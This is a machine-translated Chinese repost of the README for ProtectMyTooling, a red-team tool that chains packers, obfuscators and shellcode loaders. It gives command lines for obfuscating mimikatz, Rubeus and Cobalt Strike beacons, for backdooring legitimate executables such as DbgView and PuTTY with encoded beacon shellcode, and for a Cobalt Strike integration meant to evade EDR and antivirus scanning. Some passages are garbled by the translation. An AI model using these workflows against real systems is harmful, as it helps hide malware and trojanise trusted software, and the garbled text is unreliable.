


# 保护我的工具:多包装包装器让我们菊花链各种包装器，混淆器和其他面向红队的武器

> 原文：<https://kalilinuxtutorials.com/protectmytooling/>

[](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSKGFPM_KojZEjFJ2K9TDcmJ0kuVNoeM_64Urm4n5e42LE0AiR3EbGH5QVkabBTCxgcWLp_Hd5GB1c4yp9fVHYhzRFuvjNnsM9SWmORi2wLTl9CyiNkNi6DFM4cYIDQBUSDmS9ruzjH5vzAlrlX_EjT4tok7373oJlVkqmP3BaSWDk9PcdBSUASyj7/s728/ProtectMyTooling.png)

**ProtectMyTooling** 是一个脚本，它包装了大量的打包器、保护器、混淆器、外壳代码加载器、编码器、生成器，以产生复杂的受保护的红队植入程序。你在恶意软件开发 CI/CD 管道的完美伴侣，**帮助你的工件加水印，收集 IOC，后门和更多**。

## **ProtectMyToolingGUI.py**



有了`**ProtectMyTooling**`,你可以快速混淆你的二进制文件，而不必担心点击所有的对话框、界面、菜单，创建项目来混淆一个二进制文件，点击所有可用的选项，浪费时间做这些无聊的事情。它让你直奔主题——混淆你的工具。

目标是提供尽可能最方便的接口，并允许利用结合在单个二进制文件上的多个打包器的菊花链。

没错——我们可以同时用几个封隔器发射`**ProtectMyTooling**`:

```
C:\> py ProtectMyTooling.py hyperion,upx mimikatz.exe mimikatz-obf.exe
```

上面的例子首先将`mimikatz.exe`传递给 Hyperion 进行混淆，然后将结果提供给 UPX 进行压缩。结果为`UPX(Hyperion(file))`

## 特性

*   支持多种不同的 PE 打包机。NET 混淆器、外壳代码加载器/构建器
*   允许菊花链打包器，其中一个打包器的输出被传递到下一个:`callobf,hyperion,upx`将产生伪像`UPX(Hyperion(CallObf(file)))`
*   在每个混淆步骤收集 IOC，以便满足审计和蓝队的要求
*   提供将自定义水印注入到生成的 PE 工件中的功能——在 DOS 存根中，校验和作为独立的 PE 部分，添加到文件的覆盖层中
*   提出了一个方便的钴打击侵略者脚本带来了`protected-upload`和`protected-execute-assembly`的命令
*   简单的命令行用法

## 安装

该工具设计用于 Windows 平台，因为大多数打包程序都以该平台为目标。

有些功能可能在 Linux 上工作得很好，尽管这种支持还没有完全测试过，请报告错误和问题。

1.  首先，**禁用您的反病毒软件**，并将`contrib`目录添加到排除项中。该目录包含混淆器，保护器将被反病毒标记和删除。
2.  然后克隆这个存储库

```
PS C:\> git clone --recurse https://github.com/Binary-Offensive/ProtectMyTooling
```

3.  实际安装很简单:

**窗户**

```
PS C:\ProtectMyTooling> .\install.ps1
```

**Linux**

```
bash# ./install.sh
```

### 噱头

要让`ScareCrow` packer 在 Windows 10 上运行，需要安装`WSL`并且`bash.exe`可用(在`%PATH%`中)。然后，在 WSL 中，需要在版本至少为`1.16`的版本中安装`golang`:

```
cmd> bash
bash$ sudo apt update ; sudo apt upgrade -y ; sudo apt install golang=2:1.18~3 -y
```

## 配置

要插入支持的混淆器，更改默认选项或将 **ProtectMyTooling** 指向您的混淆器可执行路径，您将需要调整`config\ProtectMyTooling.yaml`配置文件。

还有一个`config\sample-full-config.yaml`文件，包含所有支持的打包程序的所有可用选项，作为参考点。

## 友情提醒

*   如果你产生的二进制崩溃或不按预期运行-尝试使用不同的打包链。
*   打包程序不能保证生成的二进制文件的稳定性，因此 ProtectMyTooling 也不能。
*   链接时，根据连续打包程序的期望，仔细匹配输出->输入有效载荷格式。

## 用法

在第一次使用`ProtectMyTooling`之前，有必要调整程序的 YAML 配置文件`ProtectMyTooling.yaml`。参数 processal 的顺序如下:

*   首先使用默认参数
*   然后它们被来自 YAML 的值覆盖
*   最后，命令行中提供的任何内容都将覆盖相应的值

在那里，支持的封隔器路径和选项应设置为启用。

### 场景 1:简单的混淆

用法非常简单，只需通过混淆器的名称来选择，输入和输出文件路径:

```
C:\> py ProtectMyTooling.py confuserex Rubeus.exe Rubeus-obf.exe

    Red Team implants protection swiss knife.

    Multi-Packer wrapping around multitude of packers, protectors, shellcode loaders, encoders.
    Mariusz Banach / mgeeky '20-'22, <mb@binary-offensive.com>
    v0.16

[.] Processing x86 file: "\Rubeus.exe"
[.] Generating output of ConfuserEx(<file>)...

[+] SUCCEEDED. Original file size: 417280 bytes, new file size ConfuserEx(<file>): 756224, ratio: 181.23% 
```

### 场景 2:简单的 ConfuserEx 混淆，然后是工件测试

用户还可以混淆文件并立即尝试启动它(也使用提供的可选参数)，以确保它使用选项`-r --cmdline CMDLINE`运行良好:

```
C:\> py ProtectMyTooling.py confuserex Rubeus.exe Rubeus-obf.exe -r --cmdline "hash /password:foobar"

    [...]

[.] Processing x86 file: "\Rubeus.exe"
[.] Generating output of ConfuserEx(<file>)...

[+] SUCCEEDED. Original file size: 417280 bytes, new file size ConfuserEx(<file>): 758272, ratio: 181.72%

Running application to test it...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Calculate Password Hash(es)

[*] Input password             : foobar
[*]       rc4_hmac             : BAAC3929FABC9E6DCD32421BA94A84D4

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types! 
```

### 场景 3:使用水印和 IOCs 收集的复杂恶意软件混淆

以下用例将`beacon.exe`作为输入，并将其连续送入`CallObf`->-`UPX`->-`Hyperion`包装器。

然后，它将把指定的`fooobar`水印注入到最终生成的输出工件的 DOS 存根中，并用值`0xAABBCCDD`修改该工件的校验和。

最后，ProtectMyTooling 将捕获所有的 IOC(MD5、sha1、sha256、imphash 和其他元数据)并将它们保存在辅助 CSV 文件中。随着约定的展开，该文件可用于 IOC 匹配。

```
PS> py .\ProtectMyTooling.py callobf,upx,hyperion beacon.exe beacon-obf.exe -i -I operation_chimera -w dos-stub=fooobar -w checksum=0xaabbccdd

    [...]

[.] Processing x64 file: "beacon.exe"
[>] Generating output of CallObf(<file>)...

[.] Before obfuscation file's PE IMPHASH:       17b461a082950fc6332228572138b80c
[.] After obfuscation file's PE IMPHASH:        378d9692fe91eb54206e98c224a25f43
[>] Generating output of UPX(CallObf(<file>))...

[>] Generating output of Hyperion(UPX(CallObf(<file>)))...

[+] Setting PE checksum to 2864434397 (0xaabbccdd)
[+] Successfully watermarked resulting artifact file.
[+] IOCs written to: beacon-obf-ioc.csv

[+] SUCCEEDED. Original file size: 288256 bytes, new file size Hyperion(UPX(CallObf(<file>))): 175616, ratio: 60.92% 
```

生成的 IOCs 证据 CSV 文件将如下所示:

```
timestamp,filename,author,context,comment,md5,sha1,sha256,imphash
2022-06-10 03:15:52,beacon.exe,mgeeky@commandoVM,Input File,test,dcd6e13754ee753928744e27e98abd16,298de19d4a987d87ac83f5d2d78338121ddb3cb7,0a64768c46831d98c5667d26dc731408a5871accefd38806b2709c66cd9d21e4,17b461a082950fc6332228572138b80c
2022-06-10 03:15:52,y49981l3.bin,mgeeky@commandoVM,Obfuscation artifact: CallObf(<file>),test,50bbce4c3cc928e274ba15bff0795a8c,15bde0d7fbba1841f7433510fa9aa829f8441aeb,e216cd8205f13a5e3c5320ba7fb88a3dbb6f53ee8490aa8b4e1baf2c6684d27b,378d9692fe91eb54206e98c224a25f43
2022-06-10 03:15:53,nyu2rbyx.bin,mgeeky@commandoVM,Obfuscation artifact: UPX(CallObf(<file>)),test,4d3584f10084cded5c6da7a63d42f758,e4966576bdb67e389ab1562e24079ba9bd565d32,97ba4b17c9bd9c12c06c7ac2dc17428d509b64fc8ca9e88ee2de02c36532be10,9aebf3da4677af9275c461261e5abde3
2022-06-10 03:15:53,beacon-obf.exe,mgeeky@commandoVM,Obfuscation artifact: Hyperion(UPX(CallObf(<file>))),test,8b706ff39dd4c8f2b031c8fa6e3c25f5,c64aad468b1ecadada3557cb3f6371e899d59790,087c6353279eb5cf04715ef096a18f83ef8184aa52bc1d5884e33980028bc365,a46ea633057f9600559d5c6b328bf83d
2022-06-10 03:15:53,beacon-obf.exe,mgeeky@commandoVM,Output obfuscated artifact,test,043318125c60d36e0b745fd38582c0b8,a7717d1c47cbcdf872101bd488e53b8482202f7f,b3cf4311d249d4a981eb17a33c9b89eff656fff239e0d7bb044074018ec00e20,a46ea633057f9600559d5c6b328bf83d 
```

## 支持的封隔器

设计不仅是为了支持混淆器/打包器，也是为了支持所有可以从命令行使用的构建器/生成器/外壳代码加载器。

目前，该计划支持各种商业和开源包装/混淆。那些开源的被捆绑在项目中。商业软件将要求用户购买产品，并在`ProtectMyTooling.yaml`文件中配置其位置，以指示脚本在哪里可以找到它们。

1.  [`Amber`](https://github.com/EgeBalci/amber)–反射 PE 封装器，接受输入的 EXE/DLL 并产生 EXE/PIC 外壳代码
2.  [`AtomPePacker`](https://github.com/ORCx41/AtomPePacker)——一个非常能干的 Pe 打包机
3.  [`AsStrongAsFuck`](https://github.com/Charterino/AsStrongAsFuck)–一个控制台混淆器。Charterino 列出的净装配件
4.  [`CallObfuscator`](https://github.com/d35ha/CallObfuscator)–用不同的 API 混淆特定的 windows apis。
5.  [`ConfuserEx`](https://github.com/mkaring/ConfuserEx)——流行。NET 混淆器，来自[马丁·卡琳](https://github.com/mkaring)
6.  [`Donut`](https://github.com/TheWover/donut)——采用 EXE/DLL/的流行 PE 加载器。NET 并生成 PIC 外壳代码
7.  [`Enigma`](https://enigmaprotector.com/)–为全面保护可执行文件而设计的强大系统
8.  [`Hyperion`](https://nullsecurity.net/tools/binary.html)–32 位和 64 位可移植可执行文件的运行时加密器。它是一个参考实现，基于文章“Hyperion:PE-Crypter 的实现”
9.  [`IntelliLock`](https://www.eziriz.com/intellilock.htm)–结合了强大的许可安全性、适应性强的许可功能/模式以及可靠的汇编保护
10.  [`InvObf`](https://github.com/danielbohannon/Invoke-Obfuscation)–用`Invoke-Obfuscation`混淆 Powershell 脚本(作者丹尼尔·博汉南)
11.  [`LoGiC.NET`](https://github.com/AnErrupTion/LoGiC.NET)——更高级的自由和开放。使用 dnlib 的. NET 混淆器
12.  [`Mangle`](https://github.com/optiv/Mangle)–获取输入 EXE/DLL 文件并生成输出文件，其中包含克隆的证书，删除了特定于 Golang 的 IOC 和臃肿的大小。作者马特·艾德伯格(@Tyl0us)。
13.  [`MPRESS`](https://www.autohotkey.com/mpress/mpress_web.htm)–维塔利·叶甫琴科的压缩机。接受输入 EXE/DLL/。NET/MAC-DARWIN (x86/x64)并进行压缩。
14.  [`NetReactor`](https://www.eziriz.com/dotnet_reactor.htm)——无与伦比。NET 代码保护系统，完全阻止任何人反编译你的代码
15.  [`NetShrink`](https://www.pelock.com/pl/produkty/netshrink)–一个 exe 打包器，又名可执行压缩程序，应用程序密码保护器和虚拟 DLL 绑定器，用于 Windows & Linux。NET 应用程序。
16.  [`Nimcrypt2`](https://github.com/icyguider/Nimcrypt2)–生成 Nim 加载程序运行输入。NET、PE 或原始外壳代码。作者 [(@icyguider)](https://twitter.com/icyguider)
17.  [`NimPackt-v1`](https://github.com/chvancooten/NimPackt-v1)–接受外壳代码或。NET 可执行文件，生成 EXE 或 DLL 加载程序。由 Cas van Cooten[(@ chvancooten)](https://twitter.com/chvancooten)为您带来
18.  [`NimSyscallPacker`](https://github.com/S3cur3Th1sSh1t-Sponsors/NimSyscallPacker)–取 PE/Shellcode/。NET 可执行文件并生成健壮的 Nim+Syscalls EXE/DLL 加载程序。发起人作者[(@ S3 cur 3 t1 sh1t)](https://twitter.com/ShitSecure)
19.  [`Packer64`](https://github.com/jadams/Packer64)——约翰·亚当斯的包装纸`Packer64`
20.  [`pe2shc`](https://github.com/hasherezade/pe_to_shellcode)–将 PE 转换成外壳代码。由你真正的[@哈希雷扎德](https://twitter.com/hasherezade)
21.  [`peCloak`](https://github.com/v-p-b/peCloakCapstone/blob/master/peCloak.py)–一个多通道编码器&启发式沙盒旁路反病毒规避工具
22.  [`peresed`](https://github.com/avast/pe_tools)–使用 **avast/pe_tools** 中的*【peresed】*删除所有现有的 pe 资源和签名*(想想 Mimikatz 图标)。*
23.  [`ScareCrow`](https://github.com/optiv/ScareCrow)–EDR——规避 x64 外壳代码加载器，产生 DLL/CPL/XLL/JScript/HTA 工件加载器
24.  [`sgn`](https://github.com/EgeBalci/sgn)——志贺嘎奈(仕方がない)编码器移植到 go 中，并做了一些改进。获取外壳代码，生成编码外壳代码
25.  [`SmartAssembly`](https://www.red-gate.com/products/dotnet-development/smartassembly/)–通过使第三方难以访问您的源代码，帮助保护您的应用程序免受逆向工程或修改的混淆器
26.  [`sRDI`](https://github.com/monoxgas/sRDI)–将 dll 转换为独立于位置的外壳代码。作者:[尼克·兰德斯，@monoxgas](https://twitter.com/monoxgas)
27.  [`Themida`](https://www.oreans.com/Themida.php)–高级 Windows 软件保护系统
28.  [`UPX`](https://upx.github.io/)–一个免费的、可移植的、可扩展的、高性能的可执行打包程序，支持多种可执行格式。
29.  [`VMProtect`](https://vmpsoft.com/)–通过在非标准架构的虚拟机上执行代码来保护代码，这使得分析和破解软件变得极其困难

您可以使用`-L`选项快速列出支持的封隔器(表格列根据终端宽度选择，越宽显示的信息越多):

```
C:\> py ProtectMyTooling.py -L
    [...]

    Red Team implants protection swiss knife.

    Multi-Packer wrapping around multitude of packers, protectors, shellcode loaders, encoders.
    Mariusz Banach / mgeeky '20-'22, <mb@binary-offensive.com>
    v0.16

+----+----------------+-------------+-----------------------+-----------------------------+------------------------+--------------------------------------------------------+
| #  |      Name      |     Type    |       Licensing       |            Input            |         Output         |                         Author                         |
+----+----------------+-------------+-----------------------+-----------------------------+------------------------+--------------------------------------------------------+
| 1  |     amber      | open-source |    Shellcode Loader   |              PE             |     EXE, Shellcode     |                       Ege Balci                        |
| 2  | asstrongasfuck | open-source |    .NET Obfuscator    |             .NET            |          .NET          |                 Charterino, klezVirus                  |
| 3  |  atompepacker  | open-source |  PE EXE/DLL Protector |              PE             |        EXE, DLL        |            ORCA (@ORCx41, ORCx41@gmail.com)            |
| 4  |    backdoor    | open-source |    Shellcode Loader   |          Shellcode          |           PE           |              Mariusz Banach, @mariuszbit               |
| 5  |    callobf     | open-source |  PE EXE/DLL Protector |              PE             |           PE           |                Mustafa Mahmoud, @d35ha                 |
| 6  |   confuserex   | open-source |    .NET Obfuscator    |             .NET            |          .NET          |                        mkaring                         |
| 7  |  donut-packer  | open-source |  Shellcode Converter  | PE, .NET, VBScript, JScript |       Shellcode        |                        TheWover                        |
| 8  |     enigma     |  commercial |  PE EXE/DLL Protector |              PE             |           PE           |          The Enigma Protector Developers Team          |
| 9  |    hyperion    | open-source |  PE EXE/DLL Protector |              PE             |           PE           |                   nullsecurity team                    |
| 10 |  intellilock   |  commercial |    .NET Obfuscator    |              PE             |           PE           |                         Eziriz                         |
| 11 |     invobf     | open-source | Powershell Obfuscator |          Powershell         |       Powershell       |                    Daniel Bohannon                     |
| 12 |    logicnet    | open-source |    .NET Obfuscator    |             .NET            |          .NET          |                 AnErrupTion, klezVirus                 |
| 13 |     mangle     | open-source |   Executable Signing  |              PE             |           PE           |                Matt Eidelberg (@Tyl0us)                |
| 14 |     mpress     |   freeware  | PE EXE/DLL Compressor |              PE             |           PE           |                    Vitaly Evseenko                     |
| 15 |   netreactor   |  commercial |    .NET Obfuscator    |             .NET            |          .NET          |                         Eziriz                         |
| 16 |   netshrink    | open-source |    .NET Obfuscator    |             .NET            |          .NET          |                     Bartosz Wójcik                     |
| 17 |   nimcrypt2    | open-source |    Shellcode Loader   |     PE, .NET, Shellcode     |           PE           |                       @icyguider                       |
| 18 |    nimpackt    | open-source |    Shellcode Loader   |       .NET, Shellcode       |           PE           |             Cas van Cooten (@chvancooten)              |
| 19 |   nimsyscall   | sponsorware |    Shellcode Loader   |     PE, .NET, Shellcode     |           PE           |                    @S3cur3Th1sSh1t                     |
| 20 |    packer64    | open-source | PE EXE/DLL Compressor |              PE             |           PE           |                  John Adams, @jadams                   |
| 21 |     pe2shc     | open-source |  Shellcode Converter  |              PE             |       Shellcode        |                      @hasherezade                      |
| 22 |    pecloak     | open-source |  PE EXE/DLL Protector |              PE             |           PE           |     Mike Czumak, @SecuritySift, buherator / v-p-b      |
| 23 |    peresed     | open-source |  PE EXE/DLL Protector |              PE             |           PE           |                  Martin Vejnár, Avast                  |
| 24 |   scarecrow    | open-source |    Shellcode Loader   |          Shellcode          | DLL, JScript, CPL, XLL |                Matt Eidelberg (@Tyl0us)                |
| 25 |      sgn       | open-source |   Shellcode Encoder   |          Shellcode          |       Shellcode        |                       Ege Balci                        |
| 26 | smartassembly  |  commercial |    .NET Obfuscator    |             .NET            |          .NET          |                        Red-Gate                        |
| 27 |      srdi      | open-source |   Shellcode Encoder   |             DLL             |       Shellcode        |                Nick Landers, @monoxgas                 |
| 28 |    themida     |  commercial |  PE EXE/DLL Protector |              PE             |           PE           |                         Oreans                         |
| 29 |      upx       | open-source | PE EXE/DLL Compressor |              PE             |           PE           | Markus F.X.J. Oberhumer, László Molnár, John F. Reiser |
| 30 |   vmprotect    |  commercial |  PE EXE/DLL Protector |              PE             |           PE           |                        vmpsoft                         |
+----+----------------+-------------+-----------------------+-----------------------------+------------------------+--------------------------------------------------------+ 
```

以上是支持的打包程序，但这并不意味着您已经配置好并准备好使用它们。为了准备它们的使用，您必须首先向`contrib`目录提供必要的二进制文件，然后相应地配置您的 YAML 文件。

## red water marker——内置工件水印

### 神器水印& IOC 收藏

该计划面向专业 Red 团队，非常适合用于典型的植入物开发 CI/CD 渠道。作为一名红色团队成员，我总是被期望提供与我所有植入匹配的 IOC 的体面质量列表，并且我发现为了记账、归属和可追溯性的目的，对我所有的植入进行水印是至关重要的。

为了适应这些需求，ProtectMyTooling 提供了对它们的基本支持。

### 伪像水印

`ProtectMyTooling`只需使用`--watermark`选项，即可在混淆回合后应用水印。：

```
py ProtectMyTooling [...] -w dos-stub=fooooobar -w checksum=0xaabbccdd -w section=.coco,ALLYOURBASEAREBELONG
```

还有一种独立的方法，包含在`RedWatermarker.py`脚本中。

它接受输入的可执行工件，并接受几个参数来表示在哪里注入水印以及应该插入什么值。

示例运行将 PE 校验和设置为 0xAABBCCDD，将`foooobar`插入 PE 文件的 DOS 存根(包含*的字节，此程序无法运行……*)，将`bazbazbaz`附加到文件的覆盖，然后创建一个名为`.coco`的新 PE 段，将其附加到文件的末尾，并用预设标记填充该段。

py red water marker . py beacon-obf.exe-c 0x aabbccdd-t foooo obar-e baz baz-s . coco，all your base are 归属

**满水标志使用:**

```
cmd> py RedWatermarker.py --help

    Watermark thy implants, track them in VirusTotal
    Mariusz Banach / mgeeky '22, (@mariuszbit)
    <mb@binary-offensive.com>

usage: RedWatermarker.py [options] <infile>

options:
  -h, --help            show this help message and exit

Required arguments:
  infile                Input implant file

Optional arguments:
  -C, --check           Do not actually inject watermark. Check input file if it contains specified watermarks.
  -v, --verbose         Verbose mode.
  -d, --debug           Debug mode.
  -o PATH, --outfile PATH
                        Path where to save output file with watermark injected. If not given, will modify infile.

PE Executables Watermarking:
  -t STR, --dos-stub STR
                        Insert watermark into PE DOS Stub (This program cannot be run...).
  -c NUM, --checksum NUM
                        Preset PE checksum with this value (4 bytes). Must be number. Can start with 0x for hex value.
  -e STR, --overlay STR
                        Append watermark to the file's Overlay (at the end of the file).
  -s NAME,STR, --section NAME,STR
                        Append a new PE section named NAME and insert watermark there. Section name must be shorter than 8 characters. Section will be marked Read-Only, non-executable. 
```

目前只支持 PE 文件水印，但在未来的办公文档和其他格式也将被添加。

### IOCs 集合

可以通过简单地使用`ProtectMyTooling`运行中的`-i`选项来收集 IOC。

它们在以下阶段收集:

*   在输入文件上
*   在对中间文件的每一轮模糊处理之后
*   在最终输出文件中

它们将包含以下以 CSV 文件形式保存的字段:

*   `timestamp`
*   `filename`
*   `author`–形成为`username@hostname`
*   `context`–记录是否指向输入、输出或中间文件
*   `comment`–用户通过`-I value`选项调整的值
*   `md5`
*   `sha1`
*   `sha256`
*   `imphash`–PE 导入哈希(如果可用)
*   【托多】-。NET TypeRef 哈希(如果有)

结果将是一个名为`outfile-ioc.csv`的 CSV 文件，与生成的输出工件并排存储。该文件以追加模式写入，这意味着它将接收所有后续的 IOC。

## red back door-内置 PE 后门

`ProtectMyTooling`利用我自己的`RedBackdoorer.py`脚本，它提供了一些后门 PE 可执行文件的方法。一个名为`backdoor`的专用打包器提供了支持。示例用法:

**获取输入的 Cobalt Strike 外壳代码，用 SGN (Shikata Ga-Nai)编码，然后后门 SysInternals DbgView64.exe，然后生成 Amber EXE 反射加载程序**

```
PS> py ProtectMyTooling.py sgn,backdoor,amber beacon64.bin dbgview64-infected.exe -B dbgview64.exe

    Red Team implants protection swiss knife.

    Multi-Packer wrapping around multitude of packers, protectors, shellcode loaders, encoders.
    Mariusz Banach / mgeeky '20-'22, <mb@binary-offensive.com>
    v0.16

[.] Processing x64 file :  beacon64.bin
[>] Generating output of sgn(<file>)...
[>] Generating output of backdoor(sgn(<file>))...
[>] Generating output of Amber(backdoor(sgn(<file>)))...

[+] SUCCEEDED. Original file size: 265959 bytes, new file size Amber(backdoor(sgn(<file>))): 1372672, ratio: 516.12% 
```

完整的 RedBackdoorer 用法:

```
cmd> py RedBackdoorer.py --help

     ██▀███ ▓█████▓█████▄
    ▓██ ▒ ██▓█   ▀▒██▀ ██▌
    ▓██ ░▄█ ▒███  ░██   █▌
    ▒██▀▀█▄ ▒▓█  ▄░▓█▄   ▌
    ░██▓ ▒██░▒████░▒████▓
    ░ ▒▓ ░▒▓░░ ▒░ ░▒▒▓  ▒
      ░▒ ░ ▒░░ ░  ░░ ▒  ▒
      ░░   ░   ░   ░ ░  ░
     ▄▄▄▄   ▄▄▄░  ░  ▄████▄  ██ ▄█▓█████▄ ▒█████  ▒█████  ██▀███ ▓█████ ██▀███
    ▓█████▄▒████▄  ░▒██▀ ▀█  ██▄█▒▒██▀ ██▒██▒  ██▒██▒  ██▓██ ▒ ██▓█   ▀▓██ ▒ ██▒
    ▒██▒ ▄█▒██  ▀█▄ ▒▓█    ▄▓███▄░░██   █▒██░  ██▒██░  ██▓██ ░▄█ ▒███  ▓██ ░▄█ ▒
    ▒██░█▀ ░██▄▄▄▄██▒▓▓▄ ▄██▓██ █▄░▓█▄   ▒██   ██▒██   ██▒██▀▀█▄ ▒▓█  ▄▒██▀▀█▄
    ░▓█  ▀█▓▓█   ▓██▒ ▓███▀ ▒██▒ █░▒████▓░ ████▓▒░ ████▓▒░██▓ ▒██░▒████░██▓ ▒██▒
    ░▒▓███▀▒▒▒   ▓▒█░ ░▒ ▒  ▒ ▒▒ ▓▒▒▒▓  ▒░ ▒░▒░▒░░ ▒░▒░▒░░ ▒▓ ░▒▓░░ ▒░ ░ ▒▓ ░▒▓░
    ▒░▒   ░  ▒   ▒▒ ░ ░  ▒  ░ ░▒ ▒░░ ▒  ▒  ░ ▒ ▒░  ░ ▒ ▒░  ░▒ ░ ▒░░ ░  ░ ░▒ ░ ▒░
     ░    ░  ░   ▒  ░       ░ ░░ ░ ░ ░  ░░ ░ ░ ▒ ░ ░ ░ ▒   ░░   ░   ░    ░░   ░
     ░           ░  ░ ░     ░  ░     ░       ░ ░     ░ ░    ░       ░  ░  ░
          ░         ░              ░

    Your finest PE backdooring companion.
    Mariusz Banach / mgeeky '22, (@mariuszbit)
    <mb@binary-offensive.com>

usage: RedBackdoorer.py [options] <mode> <shellcode> <infile>

options:
  -h, --help            show this help message and exit

Required arguments:
  mode                  PE Injection mode, see help epilog for more details.
  shellcode             Input shellcode file
  infile                PE file to backdoor

Optional arguments:
  -o PATH, --outfile PATH
                        Path where to save output file with watermark injected. If not given, will modify infile.
  -v, --verbose         Verbose mode.

Backdooring options:
  -n NAME, --section-name NAME
                        If shellcode is to be injected into a new PE section, define that section name. Section name must not be longer than 7 characters. Default: .qcsw
  -i IOC, --ioc IOC     Append IOC watermark to injected shellcode to facilitate implant tracking.

Authenticode signature options:
  -r, --remove-signature
                        Remove PE Authenticode digital signature since its going to be invalidated anyway.

------------------

PE Backdooring <mode> consists of two comma-separated options.
First one denotes where to store shellcode, second how to run it:

<mode>

    save,run
      |   |
      |   +---------- 1 - change AddressOfEntryPoint
      |               2 - hijack branching instruction at Original Entry Point (jmp, call, ...)
      |               3 - setup TLS callback
      |
      +-------------- 1 - store shellcode in the middle of a code section
                      2 - append shellcode to the PE file in a new PE section
Example:

    py RedBackdoorer.py 1,2 beacon.bin putty.exe putty-infected.exe 
```

## 钴击集成

还有一个集成了`ProtectMyTooling.py`的脚本，用作已配置 PE/的包装器。NET Packers/Protectors，以便轻松地将输入的可执行文件转换成受保护的压缩输出格式，然后在 CobaltStrike 中上传或使用它们。

这个想法是有一个自动化的过程来保护所有上传的二进制文件。NET 程序集，忘记在每次使用之前手动保护或模糊处理它们。自动化方法转换可执行文件的额外好处是能够在每次使用相同的可执行文件时对其进行保护，从而在目标机器上启动独特的样本。当在不同的机器上寻找相同的人工制品时，这应该很好地欺骗了 EDR/AV 企业范围的 IOC 扫描。

此外，protected-execute-assembly 命令能够查找在预配置的程序集目录(在 dotnet_assemblies_directory 设置中设置)中仅给出名称的程序集。

要使用它:

1.  装载`CobaltStrike/ProtectMyTooling.cna`在你的钴罢工。
2.  进入菜单，设置所有选项

3.  然后，在信标控制台中，您可以使用以下命令:

*   `protected-execute-assembly`–执行一个本地的、先前被保护和压缩的。目标上的. NET 程序内存中。
*   `protected-upload`–获取输入文件，如果是 PE 可执行文件，则对其进行保护，然后将该文件上传到指定的远程位置。

基本上，这些命令将打开输入文件，首先传递给`CobaltStrike/cobaltProtectMyTooling.py`脚本，然后调用`ProtectMyTooling.py`。一旦二进制文件被混淆，它将被传送到你的信标上执行/上传。

## 钴击相关选项

以下是 Cobalt Strike integrator 所需的选项列表:

*   `python3_interpreter_path`–指定 Python3 解释器可执行文件的路径
*   `protect_my_tooling_dir`–指定保护 MyTooling 主目录的路径
*   `protect_my_tooling_config`–用各种打包器选项指定保护 MyTooling 配置文件的路径
*   `dotnet_assemblies_directory`–指定本地路径。如果 execute-assembly 找不到 NET 程序集，则应该查找它
*   `cache_protected_executables`–启用缓存已受保护的可执行文件，并在需要时重用它们
*   `protected_executables_cache_dir`–指定存储缓存的受保护可执行文件的目录路径
*   `default_exe_x86_packers_chain`–本机 x86 EXE 可执行文件保护程序/打包程序链
*   `default_exe_x64_packers_chain`–原生 x64 EXE 可执行文件保护程序/打包程序链
*   `default_dll_x86_packers_chain`–本机 x86 DLL 可执行文件保护程序/打包程序链
*   `default_dll_x64_packers_chain`–原生 x64 DLL 可执行文件保护程序/打包程序链
*   `default_dotnet_packers_chain`–。NET 可执行文件保护程序/打包程序链

## 已知问题

*   从 Windows 运行是非常棘手的。对我有效的方法如下:
    1.  在 Windows 10 上运行并安装 WSL(`bash.exe`命令在 Windows 中可用)
    2.  在版本为`1.16+`的 WSL 中安装`golang`(在`1.18`上测试)
    3.  确保设置了`PackerScareCrow.Run_ScareCrow_On_Windows_As_WSL = True`

